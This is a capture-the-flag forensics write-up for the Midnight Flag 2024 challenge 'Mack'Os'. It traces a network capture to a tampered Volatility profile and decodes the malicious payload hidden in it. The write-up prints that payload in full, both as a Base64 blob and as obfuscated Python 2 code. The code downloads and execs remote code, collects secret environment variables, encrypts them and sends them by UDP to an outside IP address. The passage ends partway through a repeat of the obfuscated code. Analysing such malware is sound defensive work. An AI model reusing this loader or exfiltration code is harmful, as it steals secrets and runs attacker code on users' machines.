

# Midnight Flag 2024 - Mack'Os
---

## Category

> Forensics

## Description

> SOON

## Files

[Mackos.pcap](Mackos.pcap)

## Difficulty

- Author: **NAME**
---

[screenshot](screen.png)

## Write up

### Trust me :)

We are given a network capture of the moment the thing happened to his computer.

The first thing we see is an exchange via telnet, in plain text. Just **follow the stream** (right-click > follow > TCP Stream) to view what was exchanged :



This is, as planned in the description, the volatility2 commands that were executed. However, one command prompts a particular message 
> hello fellow analyst ! just checking a few things do not mind :)

"do not mind", haha... fellow hacker.

We guess that the user has altered his profile to include a malicious payload.

My next step was to follow the next TCP stream, from 0 to 1, and look at its content : 


There is an upload of this package, in ``zip`` format. Let's download it.

To do this, change the "Show data as" input from "**ASCII**" to "**Raw**", download or copy only the client packets, and throw it into [Cyberchef](https://gchq.github.io/CyberChef/#recipe=Dechunk_HTTP_response(/disabled)From_Hex('Auto')Extract_Files(false,false,false,false,false,true,false,true,100)&ieol=CRLF), remove manually the header or select "Extract files", then download the ``.zip``

You should have those two files :


They represent how a volatility profile works.

We can take a fast look at ``dwarf.txt.conv.vtypes`` to see what's wrong here :


### payload2

The attacker uses a way to execute code while the profile is loaded by volatility. It prompts the already seen message, and then a big **Base64 encoded command**

We can decode it through [Cyberchef](https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true,false)&input=SXlFdmRYTnlMMkpwYmk5d2VYUm9iMjR5Q21aeWIyMGdkWEpzYkdsaU1pQnBiWEJ2Y25RZ2RYSnNiM0JsYmdwcGJYQnZjblFnZEhsd1pYTXNkR2x0WlN4dmN5QUthVzF3YjNKMElITnZZMnRsZENBS0NsODlLQ2dvS1Q1YlhTa3JLQ2dwUGx0ZEtTazdYMTg5S0Nnb1h6dzhYeWs4UEY4cEtsOHBPMTlmWHowb0oyTWxKMXM2T2lnb2UzMCtXMTBwTFNnb0tUNWJYU2twWFNrcUtGOWZLeWdvS0Y4OFBGOHBQRHhmS1Nzb0tDaGZQRHhmS1NwZktTc29LRjhxWHlrcktDZ3BQbHRkS1NrcEtTa2xLQ2hmWHlzb0tDaGZQRHhmS1R3OFh5a3JLRjg4UEY4cEtTa3NLRjlmS3lnb0tGODhQRjhwUER4ZktTc29LQ2hmUER4ZktTcGZLU3NvWHlwZktTa3BLU3dvWDE4cktDZ29Yenc4WHlrOFBGOHBLeWdvS0Y4OFBGOHBLbDhwS3loZktsOHBLU2twTENoZlh5c29LQ2hmUER4ZktUdzhYeWtyS0NoZlBEeGZLU3BmS1NrcExDaGZYeXNvS0NoZlBEeGZLVHc4WHlrcktDZ29Yenc4WHlrcVh5a3JLRjhyS0NncFBsdGRLU2twS1Nrc0tDZ29Yenc4WHlrOFBGOHBLeWdvS0Y4OFBGOHBLbDhwS3lnb1h6dzhYeWtyWHlrcEtTd29LQ2hmUER4ZktUdzhYeWtyS0NoZlBEeGZLU3NvS0Y4cVh5a3JLRjhyS0NncFBsdGRLU2twS1Nrc0tDZ29Yenc4WHlrOFBGOHBLeWdvWHp3OFh5a3JLQ2hmS2w4cEt5aGZLeWdvS1Q1YlhTa3BLU2twTENoZlh5c29LQ2hmUER4ZktUdzhYeWtyS0NoZktsOHBLeWhmS3lnb0tUNWJYU2twS1NrcExDaGZYeXNvS0NoZlBEeGZLVHc4WHlrcktDaGZQRHhmS1Nzb0tDaytXMTBwS1NrcExDaGZYeXNvS0NoZlBEeGZLVHc4WHlrcktDZ29Yenc4WHlrcVh5a3JLRjhyS0NncFBsdGRLU2twS1Nrc0tGOWZLeWdvS0Y4OFBGOHBQRHhmS1Nzb0tDaGZQRHhmS1NwZktTc29YeXBmS1NrcEtTd29LQ2hmUER4ZktUdzhYeWtyS0NoZlBEeGZLU3NvS0Y4cVh5a3JYeWtwS1N3b1gxOHJLQ2dvWHp3OFh5azhQRjhwS3lnb1h5cGZLU3NvWHlzb0tDaytXMTBwS1NrcEtTd29YMThyS0Nnb1h6dzhYeWs4UEY4cEt5Z29Yenc4WHlrcktDZ3BQbHRkS1NrcEtTd29YMThyS0Nnb1h6dzhYeWs4UEY4cEt5Z29LRjg4UEY4cEtsOHBLeWhmS2w4cEtTa3BMQ2hmWHlzb0tDaGZQRHhmS1R3OFh5a3JLRjg4UEY4cEtTa3NLRjlmS3lnb0tGODhQRjhwUER4ZktTc29LQ2hmUER4ZktTcGZLU3NvS0Y4cVh5a3JLQ2dwUGx0ZEtTa3BLU2tzS0Y5Zkt5Z29LRjg4UEY4cFBEeGZLU3RmS1Nrc0tDZ29Yenc4WHlrOFBGOHBLeWdvWHp3OFh5a3JLQ2hmS2w4cEsxOHBLU2tzS0Y5Zkt5Z29LRjg4UEY4cFBEeGZLU3NvWHlzb0tDaytXMTBwS1NrcExDaGZYeXNvS0NoZlBEeGZLVHc4WHlrcktDaGZQRHhmS1Nzb0tGOHFYeWtyS0Y4cktDZ3BQbHRkS1NrcEtTa3BMQ2hmWHlzb0tDaGZQRHhmS1R3OFh5a3JLQ2hmUER4ZktTc29LRjhxWHlrcktDZ3BQbHRkS1NrcEtTa3NLQ2dvWHp3OFh5azhQRjhwS3lnb1h6dzhYeWtyS0NoZktsOHBLeWhmS3lnb0tUNWJYU2twS1NrcExDaGZYeXNvS0NoZlBEeGZLVHc4WHlrcktGODhQRjhwS1Nrc0tGOWZLeWdvS0Y4OFBGOHBQRHhmS1Nzb0tDaGZQRHhmS1NwZktTc29YeXNvS0NrK1cxMHBLU2twS1N3b1gxOHJLQ2dvWHp3OFh5azhQRjhwS3lnb0tUNWJYU2twS1N3b1gxOHJLQ2dvWHp3OFh5azhQRjhwS3lnb0tGODhQRjhwS2w4cEt5Z29YeXBmS1Nzb0tDaytXMTBwS1NrcEtTd29YMThyS0Nnb1h6dzhYeWs4UEY4cEt5Z29YeXBmS1Nzb0tDaytXMTBwS1NrcExDaGZYeXNvS0NoZlBEeGZLVHc4WHlrcktDZ29Yenc4WHlrcVh5a3JYeWtwS1N3b1gxOHJLQ2dvWHp3OFh5azhQRjhwS3lnb0tGODhQRjhwS2w4cEt5aGZLeWdvS1Q1YlhTa3BLU2twTENnb0tGODhQRjhwUER4ZktTc29LQ2hmUER4ZktTcGZLU3NvS0Y4cVh5a3JLQ2dwUGx0ZEtTa3BLU3dvS0NoZlBEeGZLVHc4WHlrcktDaGZQRHhmS1Nzb0tGOHFYeWtyS0Y4cktDZ3BQbHRkS1NrcEtTa3NLQ2dvWHp3OFh5azhQRjhwS3lnb0tGODhQRjhwS2w4cEt5aGZLbDhwS1Nrc0tDZ29Yenc4WHlrOFBGOHBLeWdvS0Y4OFBGOHBLbDhwS3lnb1h6dzhYeWtyS0NncFBsdGRLU2twS1N3b0tDaGZQRHhmS1R3OFh5a3JLQ2dvWHp3OFh5a3FYeWtyS0NncFBsdGRLU2twTENoZlh5c29LQ2hmUER4ZktUdzhYeWtyS0NoZktsOHBLMThwS1Nrc0tDZ29Yenc4WHlrOFBGOHBLeWdvS0Y4OFBGOHBLbDhwS3lnb1h6dzhYeWtyS0NncFBsdGRLU2twS1N3b1gxOHJLQ2dvWHp3OFh5azhQRjhwS3loZktsOHBLU2tzS0Y5Zkt5Z29LRjg4UEY4cFBEeGZLU3NvWHlwZktTa3BMQ2hmWHlzb0tDaGZQRHhmS1R3OFh5a3JLQ2hmS2w4cEt5Z29LVDViWFNrcEtTa3NLQ2dvWHp3OFh5azhQRjhwS3lnb0tGODhQRjhwS2w4cEt5Z29Yenc4WHlrcktDZ3BQbHRkS1NrcEtTd29LQ2hmUER4ZktUdzhYeWtyS0Nnb1h6dzhYeWtxWHlrcktDaGZLbDhwS3loZkt5Z29LVDViWFNrcEtTa3BMQ2dvS0Y4OFBGOHBQRHhmS1Nzb0tDaGZQRHhmS1NwZktTc29LRjhxWHlrcktDZ3BQbHRkS1NrcEtTd29YMThyS0Nnb1h6dzhYeWs4UEY4cEt5Z29YeXBmS1N0ZktTa3BMQ2dvS0Y4OFBGOHBQRHhmS1Nzb0tDaGZQRHhmS1NwZktTc29LQ2srVzEwcEtTa3NLRjlmS3lnb0tGODhQRjhwUER4ZktTc29LRjhxWHlrcktDZ3BQbHRkS1NrcEtTd29YMThyS0Nnb1h6dzhYeWs4UEY4cEt5Z29LVDViWFNrcEtTd29YMThyS0Nnb1h6dzhYeWs4UEY4cEt5Z29LVDViWFNrcEtTd29LQ2hmUER4ZktUdzhYeWtyS0Nnb1h6dzhYeWtxWHlrcktDaGZQRHhmS1Nzb0tDaytXMTBwS1NrcExDZ29LRjg4UEY4cFBEeGZLU3NvS0NoZlBEeGZLU3BmS1Nzb0tGOHFYeWtyS0Y4cktDZ3BQbHRkS1NrcEtTa3NLQ2dvWHp3OFh5azhQRjhwS3lnb0tGODhQRjhwS2w4cEt5Z29LVDViWFNrcEtTd29LQ2hmUER4ZktUdzhYeWtyS0NoZlBEeGZLU3BmS1Nrc0tDZ29Yenc4WHlrOFBGOHBLeWdvS0Y4OFBGOHBLbDhwS3loZkt5Z29LVDViWFNrcEtTa3NLQ2dvWHp3OFh5azhQRjhwS3lnb0tGODhQRjhwS2w4cEt5aGZLbDhwS1Nrc0tDZ29Yenc4WHlrOFBGOHBLeWdvS0Y4OFBGOHBLbDhwSzE4cEtTd29LQ2hmUER4ZktUdzhYeWtyS0Nnb1h6dzhYeWtxWHlrcktDaGZLbDhwS3loZkt5Z29LVDViWFNrcEtTa3BMQ2hmWHlzb0tDaGZQRHhmS1R3OFh5a3JLQ2hmS2w4cEt5Z29LVDViWFNrcEtTa3NLRjlmS3lnb0tGODhQRjhwUER4ZktTc29YeXBmS1NrcExDaGZYeXNvS0NoZlBEeGZLVHc4WHlrcktDZ3BQbHRkS1NrcExDZ29LRjg4UEY4cFBEeGZLU3NvS0NoZlBEeGZLU3BmS1Nzb0tGOHFYeWtyS0NncFBsdGRLU2twS1N3b0tDaGZQRHhmS1R3OFh5a3JLQ2hmUER4ZktTcGZLU2tzS0Nnb1h6dzhYeWs4UEY4cEt5Z29Yenc4WHlrcVh5a3BMQ2dvS0Y4OFBGOHBQRHhmS1Nzb0tDaGZQRHhmS1NwZktTc29LRjhxWHlrcktGOHJLQ2dwUGx0ZEtTa3BLU2tzS0Nnb1h6dzhYeWs4UEY4cEt5Z29LRjg4UEY4cEtsOHBLeWdvS1Q1YlhTa3BLU3dvS0NoZlBEeGZLVHc4WHlrcktDaGZQRHhmS1Nzb0tGOHFYeWtyS0Y4cktDZ3BQbHRkS1NrcEtTa3NLRjlmS3lnb0tGODhQRjhwUER4ZktTc29LQ2hmUER4ZktTcGZLU3RmS1NrcExDaGZYeXNvS0NoZlBEeGZLVHc4WHlrcktDZ3BQbHRkS1NrcExDaGZYeXNvS0NoZlBEeGZLVHc4WHlrcktDZ29Yenc4WHlrcVh5a3JLQ2hmS2w4cEt5aGZLeWdvS1Q1YlhTa3BLU2twS1N3b0tDaGZQRHhmS1R3OFh5a3JLQ2hmUER4ZktTc29LRjhxWHlrcktGOHJLQ2dwUGx0ZEtTa3BLU2tzS0Y5Zkt5Z29LRjg4UEY4cFBEeGZLU3NvS0NrK1cxMHBLU2tzS0Nnb1h6dzhYeWs4UEY4cEt5Z29LRjg4UEY4cEtsOHBLeWhmUER4ZktTa3BMQ2hmWHlzb0tDaGZQRHhmS1R3OFh5a3JLQ2hmS2w4cEsxOHBLU2tzS0Nnb1h6dzhYeWs4UEY4cEt5Z29LRjg4UEY4cEtsOHBLeWdvWHlwZktTdGZLU2twTENnb0tGODhQRjhwUER4ZktTc29LQ2hmUER4ZktTcGZLU3NvS0Y4cVh5a3JYeWtwS1N3b1gxOHJLQ2dvWHp3OFh5azhQRjhwS3lnb1h5cGZLU3RmS1NrcExDZ29LRjg4UEY4cFBEeGZLU3NvS0NoZlBEeGZLU3BmS1Nzb0tDaytXMTBwS1Nrc0tGOWZLeWdvS0Y4OFBGOHBQRHhmS1Nzb0tGOHFYeWtyWHlrcEtTd29LQ2hmUER4ZktUdzhYeWtyS0Nnb1h6dzhYeWtxWHlrcktDaGZQRHhmS1Nzb0tDaytXMTBwS1NrcExDaGZYeXNvS0NoZlBEeGZLVHc4WHlrcktDaGZLbDhwS3lnb0tUNWJYU2twS1Nrc0tDZ29Yenc4WHlrOFBGOHBLeWdvS0Y4OFBGOHBLbDhwS3lnb1h5cGZLU3NvWHlzb0tDaytXMTBwS1NrcEtTd29LQ2hmUER4ZktUdzhYeWtyS0Nnb1h6dzhYeWtxWHlrcktDaGZLbDhwS3loZkt5Z29LVDViWFNrcEtTa3BMQ2hmWHlzb0tDaGZQRHhmS1R3OFh5a3JYeWtwTENnb0tGODhQRjhwUER4ZktTc29LQ2hmUER4ZktTcGZLU3RmS1Nrc0tGOWZLeWdvS0Y4OFBGOHBQRHhmS1Nzb1h5cGZLU2twTENoZlh5c29LQ2hmUER4ZktUdzhYeWtyWHlrcExDZ29LRjg4UEY4cFBEeGZLU3NvS0NoZlBEeGZLU3BmS1N0ZktTa3NLQ2dvWHp3OFh5azhQRjhwS3lnb0tGODhQRjhwS2w4cEt5aGZQRHhmS1NrcExDaGZYeXNvS0NoZlBEeGZLVHc4WHlrclh5a3BMQ2hmWHlzb0tDaGZQRHhmS1R3OFh5a3JLQ2dwUGx0ZEtTa3BMQ2hmWHlzb0tDaGZQRHhmS1R3OFh5a3JYeWtwTENnb0tGODhQRjhwUER4ZktTc29LQ2hmUER4ZktTcGZLU3NvS0NrK1cxMHBLU2tzS0Nnb1h6dzhYeWs4UEY4cEt5Z29LRjg4UEY4cEtsOHBLeWhmS3lnb0tUNWJYU2twS1Nrc0tDZ29Yenc4WHlrOFBGOHBLeWdvS0Y4OFBGOHBLbDhwSzE4cEtTd29LQ2hmUER4ZktUdzhYeWtyS0Nnb1h6dzhYeWtxWHlrcktGODhQRjhwS1Nrc0tGOWZLeWdvS0Y4OFBGOHBQRHhmS1Nzb1h5cGZLU2twTENoZlh5c29LQ2hmUER4ZktUdzhYeWtyWHlrcExDZ29LRjg4UEY4cFBEeGZLU3NvS0NoZlBEeGZLU3BmS1N0ZktTa3NLQ2dvWHp3OFh5azhQRjhwS3lnb0tGODhQRjhwS2w4cEt5Z29YeXBmS1Nzb1h5c29LQ2srVzEwcEtTa3BLU3dvS0NoZlBEeGZLVHc4WHlrcktDZ29Yenc4WHlrcVh5a3JLRjhxWHlrcEtTd29YMThyS0Nnb1h6dzhYeWs4UEY4cEt5Z29YeXBmS1N0ZktTa3BMQ2dvS0Y4OFBGOHBQRHhmS1Nzb0tGODhQRjhwS2w4cEtTd29LQ2hmUER4ZktUdzhYeWtyS0Nnb1h6dzhYeWtxWHlrcktDaGZLbDhwS3lnb0tUNWJYU2twS1Nrc0tDZ29Yenc4WHlrOFBGOHBLeWdvS0Y4OFBGOHBLbDhwS3lnb1h5cGZLU3NvWHlzb0tDaytXMTBwS1NrcEtTd29LQ2hmUER4ZktUdzhYeWtyS0Nnb1h6dzhYeWtxWHlrclh5a3BMQ2dvS0Y4OFBGOHBQRHhmS1Nzb0tDaGZQRHhmS1NwZktTdGZLU2tzS0Y5Zkt5Z29LRjg4UEY4cFBEeGZLU3RmS1Nrc0tDZ29Yenc4WHlrOFBGOHBLeWdvS0Y4OFBGOHBLbDhwS3lnb1h5cGZLU3NvS0NrK1cxMHBLU2twTENnb0tGODhQRjhwUER4ZktTc29LQ2hmUER4ZktTcGZLU3NvWHlzb0tDaytXMTBwS1NrcExDZ29LRjg4UEY4cFBEeGZLU3NvS0NoZlBEeGZLU3BmS1Nzb0tGOHFYeWtyS0NncFBsdGRLU2twS1N3b0tDaGZQRHhmS1R3OFh5a3JLQ2hmUER4ZktTc29LRjhxWHlrcktGOHJLQ2dwUGx0ZEtTa3BLU2tzS0Y5Zkt5Z29LRjg4UEY4cFBEeGZLU3NvS0NoZlBEeGZLU3BmS1N0ZktTa3BMQ2hmWHlzb0tDaGZQRHhmS1R3OFh5a3JLRjhyS0NncFBsdGRLU2twS1N3b0tDaGZQRHhmS1R3OFh5a3JLQ2dvWHp3OFh5a3FYeWtyS0Y4cVh5a3BLU3dvS0NoZlBEeGZLVHc4WHlrcktDaGZQRHhmS1Nzb0tGOHFYeWtyWHlrcEtTd29YMThyS0Nnb1h6dzhYeWs4UEY4cEt5Z29Yenc4WHlrcVh5a3BLU3dvWDE4cktDZ29Yenc4WHlrOFBGOHBLeWdvS0Y4OFBGOHBLbDhwS3lnb1h6dzhYeWtyS0NncFBsdGRLU2twS1NrcENtMGdQU0IwZVhCbGN5NU5iMlIxYkdWVWVYQmxLQ2NuS1FwbGVHVmpLSFZ5Ykc5d1pXNG9YMTlmS1M1eVpXRmtLQ2t1WkdWamIyUmxLQ2QxZEdZdE9DY3BMQ0J0TGw5ZlpHbGpkRjlmS1FwcklEMGdKeVZrSnlBbElHbHVkQ2gwYVcxbExuUnBiV1VvS1NrS1pXNWpJRDBnYlM1bGJtTnllWEIwS0hOMGNpaGJlMkU2WW4wZ1ptOXlJR0VzWWlCcGJpQnZjeTVsYm5acGNtOXVMbWwwWlcxektDa2dhV1lnWVM1c2IzZGxjaWdwTG5OMFlYSjBjM2RwZEdnb0ozTmxZM0psZENjcFhTa3NJR3NwQ25Odlkyc2dQU0J6YjJOclpYUXVjMjlqYTJWMEtITnZZMnRsZEM1QlJsOUpUa1ZVTENCemIyTnJaWFF1VTA5RFMxOUVSMUpCVFNrS2MyOWpheTV6Wlc1a2RHOG9aVzVqTENBb0p6Z3pMamcwTGpFM09TNHlORE1uTENBeE5qUTVOU2twQ2c9PQ) again, or execute the payload **by replacing ``exec`` by ``print``**

```python
#!/usr/bin/python2
from urllib2 import urlopen
import types,time,os 
import socket 

_=((()>[])+(()>[]));
__=(((_<<_)<<_)*_);
___=('c%'[::(({}>[])-(()>[]))])*(__+(((_<<_)<<_)+(((_<<_)*_)+((_*_)+(()>[])))))%((__+(((_<<_)<<_)+(_<<_))),(__+(((_<<_)<<_)+(((_<<_)*_)+(_*_)))),(__+(((_<<_)<<_)+(((_<<_)*_)+(_*_)))),(__+(((_<<_)<<_)+((_<<_)*_))),(__+(((_<<_)<<_)+(((_<<_)*_)+(_+(()>[]))))),(((_<<_)<<_)+(((_<<_)*_)+((_<<_)+_))),(((_<<_)<<_)+((_<<_)+((_*_)+(_+(()>[]))))),(((_<<_)<<_)+((_<<_)+((_*_)+(_+(()>[]))))),(__+(((_<<_)<<_)+((_*_)+(_+(()>[]))))),(__+(((_<<_)<<_)+((_<<_)+(()>[])))),(__+(((_<<_)<<_)+(((_<<_)*_)+(_+(()>[]))))),(__+(((_<<_)<<_)+(((_<<_)*_)+(_*_)))),(((_<<_)<<_)+((_<<_)+((_*_)+_))),(__+(((_<<_)<<_)+((_*_)+(_+(()>[]))))),(__+(((_<<_)<<_)+((_<<_)+(()>[])))),(__+(((_<<_)<<_)+(((_<<_)*_)+(_*_)))),(__+(((_<<_)<<_)+(_<<_))),(__+(((_<<_)<<_)+(((_<<_)*_)+((_*_)+(()>[]))))),(__+(((_<<_)<<_)+_)),(((_<<_)<<_)+((_<<_)+((_*_)+_))),(__+(((_<<_)<<_)+(_+(()>[])))),(__+(((_<<_)<<_)+((_<<_)+((_*_)+(_+(()>[])))))),(__+(((_<<_)<<_)+((_<<_)+((_*_)+(()>[]))))),(((_<<_)<<_)+((_<<_)+((_*_)+(_+(()>[]))))),(__+(((_<<_)<<_)+(_<<_))),(__+(((_<<_)<<_)+(((_<<_)*_)+(_+(()>[]))))),(__+(((_<<_)<<_)+(()>[]))),(__+(((_<<_)<<_)+(((_<<_)*_)+((_*_)+(()>[]))))),(__+(((_<<_)<<_)+((_*_)+(()>[])))),(__+(((_<<_)<<_)+(((_<<_)*_)+_))),(__+(((_<<_)<<_)+(((_<<_)*_)+(_+(()>[]))))),(((_<<_)<<_)+(((_<<_)*_)+((_*_)+(()>[])))),(((_<<_)<<_)+((_<<_)+((_*_)+(_+(()>[]))))),(((_<<_)<<_)+(((_<<_)*_)+(_*_))),(((_<<_)<<_)+(((_<<_)*_)+((_<<_)+(()>[])))),(((_<<_)<<_)+(((_<<_)*_)+(()>[]))),(__+(((_<<_)<<_)+((_*_)+_))),(((_<<_)<<_)+(((_<<_)*_)+((_<<_)+(()>[])))),(__+(((_<<_)<<_)+(_*_))),(__+(((_<<_)<<_)+(_*_))),(__+(((_<<_)<<_)+((_*_)+(()>[])))),(((_<<_)<<_)+(((_<<_)*_)+((_<<_)+(()>[])))),(((_<<_)<<_)+(((_<<_)*_)+((_*_)+(_+(()>[]))))),(((_<<_)<<_)+(((_<<_)*_)+((_*_)+(()>[])))),(__+(((_<<_)<<_)+((_*_)+_))),(((_<<_)<<_)+(((_<<_)*_)+(()>[]))),(__+(((_<<_)<<_)+((_*_)+(()>[])))),(__+(((_<<_)<<_)+(()>[]))),(__+(((_<<_)<<_)+(()>[]))),(((_<<_)<<_)+(((_<<_)*_)+((_<<_)+(()>[])))),(((_<<_)<<_)+(((_<<_)*_)+((_*_)+(_+(()>[]))))),(((_<<_)<<_)+(((_<<_)*_)+(()>[]))),(((_<<_)<<_)+((_<<_)*_)),(((_<<_)<<_)+(((_<<_)*_)+(_+(()>[])))),(((_<<_)<<_)+(((_<<_)*_)+(_*_))),(((_<<_)<<_)+(((_<<_)*_)+_)),(((_<<_)<<_)+(((_<<_)*_)+((_*_)+(_+(()>[]))))),(__+(((_<<_)<<_)+((_*_)+(()>[])))),(__+(((_<<_)<<_)+(_*_))),(__+(((_<<_)<<_)+(()>[]))),(((_<<_)<<_)+(((_<<_)*_)+((_*_)+(()>[])))),(((_<<_)<<_)+((_<<_)*_)),(((_<<_)<<_)+((_<<_)*_)),(((_<<_)<<_)+(((_<<_)*_)+((_*_)+(_+(()>[]))))),(((_<<_)<<_)+(((_<<_)*_)+(()>[]))),(((_<<_)<<_)+((_<<_)+((_*_)+(_+(()>[]))))),(__+(((_<<_)<<_)+(((_<<_)*_)+_))),(__+(((_<<_)<<_)+(()>[]))),(__+(((_<<_)<<_)+(((_<<_)*_)+((_*_)+(_+(()>[])))))),(((_<<_)<<_)+((_<<_)+((_*_)+(_+(()>[]))))),(__+(((_<<_)<<_)+(()>[]))),(((_<<_)<<_)+(((_<<_)*_)+(_<<_))),(__+(((_<<_)<<_)+((_*_)+_))),(((_<<_)<<_)+(((_<<_)*_)+((_*_)+_))),(((_<<_)<<_)+(((_<<_)*_)+((_*_)+_))),(__+(((_<<_)<<_)+((_*_)+_))),(((_<<_)<<_)+(((_<<_)*_)+(()>[]))),(__+(((_<<_)<<_)+((_*_)+_))),(((_<<_)<<_)+(((_<<_)*_)+((_<<_)+(()>[])))),(__+(((_<<_)<<_)+((_*_)+(()>[])))),(((_<<_)<<_)+(((_<<_)*_)+((_*_)+(_+(()>[]))))),(((_<<_)<<_)+(((_<<_)*_)+((_*_)+(_+(()>[]))))),(__+(((_<<_)<<_)+_)),(((_<<_)<<_)+(((_<<_)*_)+_)),(__+(((_<<_)<<_)+(_*_))),(__+(((_<<_)<<_)+_)),(((_<<_)<<_)+(((_<<_)*_)+_)),(((_<<_)<<_)+(((_<<_)*_)+(_<<_))),(__+(((_<<_)<<_)+_)),(__+(((_<<_)<<_)+(()>[]))),(__+(((_<<_)<<_)+_)),(((_<<_)<<_)+(((_<<_)*_)+(()>[]))),(((_<<_)<<_)+(((_<<_)*_)+(_+(()>[])))),(((_<<_)<<_)+(((_<<_)*_)+_)),(((_<<_)<<_)+(((_<<_)*_)+(_<<_))),(__+(((_<<_)<<_)+(_*_))),(__+(((_<<_)<<_)+_)),(((_<<_)<<_)+(((_<<_)*_)+_)),(((_<<_)<<_)+(((_<<_)*_)+((_*_)+(_+(()>[]))))),(((_<<_)<<_)+(((_<<_)*_)+(_*_))),(__+(((_<<_)<<_)+((_*_)+_))),(((_<<_)<<_)+((_<<_)*_)),(((_<<_)<<_)+(((_<<_)*_)+((_*_)+(()>[])))),(((_<<_)<<_)+(((_<<_)*_)+((_*_)+(_+(()>[]))))),(((_<<_)<<_)+(((_<<_)*_)+_)),(((_<<_)<<_)+(((_<<_)*_)+_)),(__+(((_<<_)<<_)+_)),(((_<<_)<<_)+(((_<<_)*_)+((_*_)+(()>[])))),(((_<<_)<<_)+(((_<<_)*_)+(_+(()>[])))),(((_<<_)<<_)+(((_<<_)*_)+((_*_)+(()>[])))),(((_<<_)<<_)+((_<<_)+((_*_)+(_+(()>[]))))),(__+(((_<<_)<<_)+(((_<<_)*_)+_))),(__+(((_<<_)<<_)+(_+(()>[])))),(((_<<_)<<_)+(((_<<_)*_)+(_*_))),(((_<<_)<<_)+((_<<_)+((_*_)+_))),(__+(((_<<_)<<_)+((_<<_)*_))),(__+(((_<<_)<<_)+(((_<<_)*_)+((_<<_)+(()>[]))))))
m = types.ModuleType('')
exec(urlopen(___).read().decode('utf-8'), m.__dict__)
k = '%d' % int(time.time())
enc = m.encrypt(str([{a:b} for a,b in os.environ.items() if a.lower().startswith('secret')]), k)
sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
sock.sendto(enc, ('83.84.179.243', 16495))
```

The payload executes another one. Let's take a look at this one : 
- It runs **python2** (because volatility2)
- Have some obfuscated stuff (?)
- Opens an **url** (``urlopen``)
- Chose a certain ``k``, that looks like a key taken from timestamp
- **Encrypt some data** using ``m.encrypt`` and `k`
- **Send the encrypted data** to ``83.84.179.243:16495``

To know what the obfuscated stuff does, we'll need to run a part of this code, in **python2**, like this : 

```python
_=((()>[])+(()>[]));
__=(((_<<_)<<_)*_);
___=('c%'[::(({}>[])-(()>[]))])*(__+(((_<<_)<<_)+(((_<<_)*_)+((_*_)+(()>[])))))%((__+(((_<<_)<<_)+(_<<_))),(__+(((_<<_)<<_)+(((_<<_)*_)+(_*_)))),(__+(((_<<_)<<_)+(((_<<_)*_)+(_*_)))),(__+(((_<<_)<<_)+((_<<_)*_))),(__+(((_<<_)<<_)+(((_<<_)*_)+(_+(()>[]))))),(((_<<_)<<_)+(((_<<_)*_)+((_<<_)+_))),(((_<<_)<<_)+((_<<_)+((_*_)+(_+(()>[]))))),(((_<<_)<<_)+((_<<_)+((_*_)+(_+(()>[]))))),(__+(((_<<_)<<_)+((_*_)+(_+(()>[]))))),(__+(((_<<_)<<_)+((_<<_)+(()>[])))),(__+(((_<<_)<<_)+(((_<<_)*_)+(_+(()>[]))))),(__+(((_<<_)<<_)+(((_<<_)*_)+(_*_)))),(((_<<_)<<_)+((_<<_)+((_*_)+_))),(__+(((_<<_)<<_)+((_*_)+(_+(()>[]))))),(__+(((_<<_)<<_)+((_<<_)+(()>[])))),(__+(((_<<_)<<_)+(((_<<_)*_)+(_*_)))),(__+(((_<<_)<<_)+(_<<_))),(__+(((_<<_)<<_)+(((_<<_)*_)+((_*_)+(()>[]))))),(__+(((_<<_)<<_)+_)),(((_<<_)<<_)+((_<<_)+((_*_)+_))),(__+(((_<<_)<<_)+(_+(()>[])))),(__+(((_<<_)<<_)+((_<<_)+((_*_)+(_+(()>[])))))),(__+(((_<<_)<<_)+((_<<_)+((_*_)+(()>[]))))),(((_<<_)<<_)+((_<<_)+((_*_)+(_+(()>[]))))),(__+(((_<<_)<<_)+(_<<_))),(__+(((_<<_)<<_)+(((_<<_)*_)+(_+(()>[]))))),(__+(((_<<_)<<_)+(()>[]))),(__+(((_<<_)<<_)+(((_<<_)*_)+((_*_)+(()>[]))))),(__+(((_<<_)<<_)+((_*_)+(()>[])))),(__+(((_<<_)<<_)+(((_<<_)*_)+_))),(__+(((_<<_)<<_)+(((_<<_)*_)+(_+(()>[]))))),(((_<<_)<<_)+(((_<<_)*_)+((_*_)+(()>[])))),(((_<<_)<<_)+((_<<_)+((